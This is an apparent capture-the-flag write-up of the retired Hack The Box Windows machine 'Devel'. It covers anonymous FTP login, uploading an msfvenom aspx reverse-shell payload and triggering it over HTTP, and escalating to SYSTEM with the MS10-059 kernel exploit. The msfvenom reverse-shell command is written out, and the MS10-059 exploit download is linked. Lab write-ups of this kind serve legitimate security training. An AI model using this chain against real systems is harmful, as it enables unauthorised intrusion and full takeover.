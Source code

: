 ```yaml
---
title: Devel Hackthebox Writeup
date: 2020-12-18 09:00:00 +0800
categories: [Hackthebox, Retired]
tags: [windows,systeminfo,ftp anonymous,aspx,windows exploit suggester]     # TAG names should always be lowercase
image: /assets/img/devel-hackthebox/devel-pic.png
subtitle: JHBDOcubeoveiubo
---
```



# Introduction@Devel:~$


Column | Details
------------ | -------------
Name | Devel
IP | 10.10.10.5
Points | 20
Os | Windows
Difficult | Easy
Creator | [ch4p](https://www.hackthebox.eu/home/users/profile/1)
Out on | 15th March 2017

# Summary:~$

* Discovering the new host and scanning for open ports.
* logging in as `anonymous` user in `ftp port`.
* Uploading an aspx `shell` via ftp and accessing it on `port 80` to get a reverse shell.
* Using `windows exploit suggester` for escalating privileges.
* using `MS10-059.exe` got `Root Privileges`.

# Starting:~$

## Nmap

I have used **nmapAutomator** , which keeps the scanning fast and reduces effort.*(Not recommended in real life scenarios).* 

Dowload link: [nmapAutomator](https://github.com/21y4d/nmapAutomator)

___
![](/assets/img/devel-hackthebox/nmap-scan-1.png)

Let's Check port `80`, which is a **Microsoft IIS httpd 7.5** server.

___
![](/assets/img/devel-hackthebox/port-80-2.png)

I tried `gobuster` for directory search, but it didn't worked out for me.

**Command** : *gobuster dir -u http://10.10.10.5/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100*

where   **t : threads**
        **| u : URL**
        **| w : wordlists**

___
![](/assets/img/devel-hackthebox/gobuster-3.png)

Then I tried logging in `ftp` as an `anonymous user` which worked. 

*Username*: `anonymous` | *Password*: `anonymous`

___
![](/assets/img/devel-hackthebox/ftp-anonyous-4.png)

Looking what's inside ftp 

___
![](/assets/img/devel-hackthebox/ftp-inside-5.png)

I tried accessing the `aspnet_client/` directory but it showed an *403 Forbidden Error*.

___
![](/assets/img/devel-hackthebox/aspent_client-access-denied-6.png)

I used gobuster on `aspnet_client/`, but it didn't worked out.

So I tried uploading a shell in the `ftp` using **put** command and accessing it via `port 80` to get a reverse shell.

Creating payload using `msfvenom` 

**Command**: *msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=1234 -f aspx > shell.aspx*

___
![](/assets/img/devel-hackthebox/msfvenom-payload-8.png)

Uploading it to `ftp`.

___
![](/assets/img/devel-hackthebox/uploaded-shell-ftp-9.png)

Accessing /shell.aspx on `port 80`.

We got a Shell.

___
![](/assets/img/devel-hackthebox/got-shell-10.png)

But I wasn't able to get the `User Flag` becasue we didn't had the permissions.

___
![](/assets/img/devel-hackthebox/no-access-11.png)

Let's first escalate the privileges, running `systeminfo` on the machine to get all the information.

___
![](/assets/img/devel-hackthebox/getting-systeminfo-for-privsec-13.png)

Feeding the above information to `windows exploit suggester` which I had downloaded on my machine.

Download link : [windows-exploit-suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

___
![](/assets/img/devel-hackthebox/exploit-suggester-results-14.png)

I tried using the `MS10-59` exploit for escalating privileges.

Download Link : [MS10-59.exe]( https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059)

Uploading `MS10-59.exe` via ftp, just like we uploaded the aspx shell.

___
![](/assets/img/devel-hackthebox/escalating-privs-15.png)

When I tried escalating privileges, it threw me an `error` of *This program cannot be run in DOS mode.*

___
![](/assets/img/devel-hackthebox/cannot-run-in-DOS-mode-16.png)

I googled about it and found [this](https://superuser.com/questions/476808/i-am-getting-this-program-cannot-be-run-in-dos-mode-in-windows-xp).

Now sending the executable again but before that switching the `ftp` mode to `binary` first.

___
![](/assets/img/devel-hackthebox/transfering-0again-in-binary-mode-17.png)

Now Running the exploit and listenig on `nc`.

___
![](/assets/img/devel-hackthebox/got-root-18.png)

Checking `whoami`.

___
![](/assets/img/devel-hackthebox/whoami-image-final.png)

Got `Root`.

